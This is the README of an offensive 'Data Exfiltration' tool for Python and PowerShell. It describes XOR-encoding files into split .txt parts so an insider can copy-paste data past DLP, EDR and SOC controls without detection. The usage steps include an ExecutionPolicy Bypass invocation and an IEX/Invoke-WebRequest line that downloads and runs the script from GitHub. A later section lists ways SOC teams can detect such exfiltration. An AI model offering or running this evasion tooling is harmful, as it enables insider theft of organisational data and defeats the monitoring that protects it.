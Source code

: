 # Data Exfiltration

## Overview
Data Exfiltration is a **Python and PowerShell** tool that allows you to **convert any file** (e.g., `.exe`, `.pdf`, `.jpg`, `.xlsx`) into disguised `.txt` files. The encoded files can be safely stored and later restored to their original format. This helps in **evading detection** from EDR, DLP, and SOC teams.

## Purpose
Many organizations use **Data Loss Prevention (DLP) solutions** to block direct file uploads. However, **copy-pasting text is often allowed**. This tool enables an **insider threat** to covertly exfiltrate data by:
1. **Converting files to text-based `.txt` parts**.
2. **Copy-pasting the disguised text** to another system (e.g., email, chat, cloud storage).
3. **Downloading the parts and restoring the original file** without detection.


## Features
✅ Splits files into multiple parts (`file_part1.txt`, `file_part2.txt`, etc.)

✅ Uses **XOR encryption** with a random key for stealth encoding

✅ **No Base64** (avoiding security tool detection)

✅ Restores files exactly as they were (including executables)

✅ **No file deletion** (Original files remain intact)

✅ Works on **Windows/Linux/macOS**

---

## 🔥 Python Version Usage

### **1️⃣ Install Requirements**
Python 3 is required, but no external dependencies.

### **2️⃣ Convert Files to `.txt`**
```sh
python Data-Exfiltration.py /path/to/folder
```
- Example: 
  ```sh
  python Data-Exfiltration.py Data_imp
  ```
- This will convert all files in `Data_imp/` into `.txt` parts.

### **3️⃣ Restore Original Files**
```sh
python Data-Exfiltration.py /path/to/folder --decode
```
- Example:
  ```sh
  python Data-Exfiltration.py Data_imp --decode
  ```
- This will merge `.txt` parts and restore the original files.

---

## 💻 PowerShell Version Usage

### **1️⃣ Convert Files to `.txt`**
```powershell
powershell -ExecutionPolicy Bypass -File FileConverter.ps1 -folder "C:\Users\Data\Data_imp"
```

### **2️⃣ Restore Files from `.txt` Parts**
```powershell
powershell -ExecutionPolicy Bypass -File FileConverter.ps1 -folder "C:\Users\Data\Data_imp" -decode
```

### **Alternative (Without Saving Script Locally)**
```powershell
IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/MrHarshvardhan/Data-Exfiltration/refs/heads/main/Data-Exfiltration.ps1" -UseBasicParsing).Content
Encode-Files -folder "C:\Users\Data\Data_imp"
```

---

## 🚨 Detection Methods by SOC Teams
Although this tool tries to avoid detection, SOC teams can still identify exfiltration attempts through:

1. **Unusual Text File Activity** 📂
   - Large `.txt` files appearing suddenly with high entropy.
   - `.txt` files created with unexpected file sizes (matching original files).

2. **Suspicious File Splitting** 🛑
   - Files broken into parts (`_part1.txt`, `_part2.txt`) detected in **endpoint logs**.
   - Frequent read/write operations on `.txt` files in a short time span.

3. **Behavioral Analysis** 🔍
   - Use of **XOR encoding** flagged by advanced EDR/AV solutions.
   - Abnormal PowerShell execution, especially `Invoke-WebRequest` usage.
   - Processes interacting with `.txt` files in directories not normally used for text-based storage.

4. **Network Traffic Anomalies** 🌐
   - **Outbound `.txt` uploads** with encrypted content to unknown domains.
   - Detection of encoded **XOR patterns in traffic** (if not using HTTPS or encrypted channels).

5. **SIEM & Endpoint Alerts** ⚠️
   - Unusual PowerShell execution (Event ID 4104 - Script Block Logging).
   - File access anomalies via Sysmon (Event ID 11 - File Creation).

---

## ⚠️ Disclaimer
This tool is for **educational and red team research** purposes only. The author is not responsible for any misuse.

🚀 **Happy Hacking!**

